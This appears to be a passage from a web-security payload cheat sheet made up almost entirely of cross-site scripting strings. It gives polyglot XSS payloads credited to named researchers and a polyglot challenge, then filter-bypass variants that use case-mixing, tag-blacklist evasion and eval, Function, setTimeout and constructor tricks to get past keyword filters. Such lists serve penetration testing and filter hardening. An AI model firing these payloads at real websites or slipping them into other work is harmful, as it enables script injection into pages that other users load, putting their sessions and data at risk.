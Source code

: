 Polyglot XSS - [@s0md3v](https://twitter.com/s0md3v/status/966175714302144514)
![https://pbs.twimg.com/media/DWiLk3UX4AE0jJs.jpg](https://pbs.twimg.com/media/DWiLk3UX4AE0jJs.jpg)

```javascript
-->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
```

![https://pbs.twimg.com/media/DWfIizMVwAE2b0g.jpg:large](https://pbs.twimg.com/media/DWfIizMVwAE2b0g.jpg:large)

```javascript
<svg%0Ao%00nload=%09((pro\u006dpt))()//
```

Polyglot XSS - from [@filedescriptor's Polyglot Challenge](http://polyglot.innerht.ml)

```javascript
# by crlf
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>

# by europa
javascript:"/*'/*`/*\" /*</title></style></textarea></noscript></noembed></template></script/-->&lt;svg/onload=/*<html/*/onmouseover=alert()//>

# by EdOverflow
javascript:"/*\"/*`/*' /*</template></textarea></noembed></noscript></title></style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>

# by h1/ragnar
javascript:`//"//\"//</title></textarea></style></noscript></noembed></script></template>&lt;svg/onload='/*--><html */ onmouseover=alert()//'>`
```

## Filter Bypass and exotic payloads

### Bypass case sensitive

```javascript
<sCrIpt>alert(1)</ScRipt>
```

### Bypass tag blacklist

```javascript
<script x>
<script x>alert('XSS')<script y>
```

### Bypass word blacklist with code evaluation

```javascript
eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
```

